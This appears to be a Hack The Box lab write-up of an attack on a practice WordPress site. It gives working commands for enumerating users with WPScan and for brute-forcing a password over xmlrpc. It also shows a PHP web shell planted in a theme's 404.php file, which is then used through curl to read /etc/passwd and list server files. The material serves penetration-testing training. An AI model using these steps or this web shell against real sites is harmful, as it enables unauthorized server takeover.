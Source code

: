 # Hack The Box - Attack WordPress (Writeup)

## Target Information
**IP Address**: 10.129.250.241

**Virtual Host (vhost)**: blog.inlanefreight.local

I edited my /etc/hosts file to map the IP address to the vhost:
```bash
sudo nano /etc/hosts
```
Added:
```bash
10.129.250.241 blog.inlanefreight.local
```
## Step 1: Enumerating the WordPress Site
To enumerate the WordPress installation, I used WPScan with an API token to find users:
```bash
sudo wpscan --url http://blog.inlanefreight.local --enumerate u --api-token CKFtS1LOO<SNIP>
```
**Identified Users**
- admin
- doug
```bash
<SNIP>
[i] User(s) Identified:

[+] by:
									admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 5
 | Requests Remaining: 20

[+] Finished: Sun Apr 27 23:34:41 2025
[+] Requests Done: 3632
[+] Cached Requests: 12
[+] Data Sent: 1.045 MB
[+] Data Received: 23.177 MB
[+] Memory used: 280.82 MB
[+] Elapsed time: 00:03:27
```
## Step 2: Bruteforcing Password for User "doug"
I attempted to bruteforce the password of the user doug using WPScan and the common password list rockyou.txt:
```bash
sudo wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
**Credentials found:**

- Username: doug
- Password: jessica1
```bash
[+] Performing password attack on Xmlrpc against 1 user/s
Trying doug / linkinpark Time: 00:00:16 <> (508 / 14344392)  0.00%  ETA: ??:??:?[SUCCESS] - doug / jessica1                                                     
Trying doug / cheyenne Time: 00:00:20 < > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: doug, Password: jessica1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Apr 27 23:44:30 2025
[+] Requests Done: 832
[+] Cached Requests: 8
[+] Data Sent: 402.909 KB
[+] Data Received: 907.688 KB
[+] Memory used: 271.418 MB
[+] Elapsed time: 00:00:38
```
## Step 3: Accessing WordPress Admin Panel
Using the obtained credentials, I logged into the WordPress admin dashboard:

- URL: http://blog.inlanefreight.local/wp-admin
- Username: doug
- Password: jessica1

![image](https://github.com/user-attachments/assets/d8ce93fc-6f93-4650-876d-704f7524eef5)

## Step 4: Gaining Remote Code Execution
Following the Attack WordPress module instructions, I modified the 404.php file of the Twenty Nineteen theme to execute system commands:
Navigated to
`Appearance -> Theme Editor -> 404.php (Twenty Nineteen Theme)`

Added the following PHP code:
`<?php system($_GET['cmd']); ?>`

![image](https://github.com/user-attachments/assets/3902f59e-b0b6-452a-8baf-77828a612f5b)

## Step 5: Testing Remote Command Execution
I tested the remote code execution by sending a curl request:
```bash
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=id"
```
Result:
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

![image](https://github.com/user-attachments/assets/4b0c1c18-2061-45fa-902e-7e15d76b01a6)

This confirmed that command execution was successfully achieved, and the code was running with www-data user privileges.

## Step 6: Exploring the Target System
To explore further I retrieved the contents of /etc/passwd:
```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat+/etc/passwd
```
Found another user with a login shell /bin/bash (potential target for privilege escalation).

![image](https://github.com/user-attachments/assets/af902c4f-ab63-40c1-8ca6-d8604002954e)

I also listed files in the web server's root directory:
```bash
curl "http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=ls+/var/www/blog.inlanefreight.local/"
```
Found important files that might help in further privilege escalation or lateral movement.

![image](https://github.com/user-attachments/assets/f9ac18b9-e2cf-408a-a41d-ef5fc8fc1f31)

## Summary
Stage | Status
WordPress user enumeration | ✅ Completed
Password brute forcing | ✅ Completed
Admin panel access | ✅ Completed
Remote Code Execution | ✅ Achieved
Initial foothold on the server | ✅ Done

HAPPY HACKING !
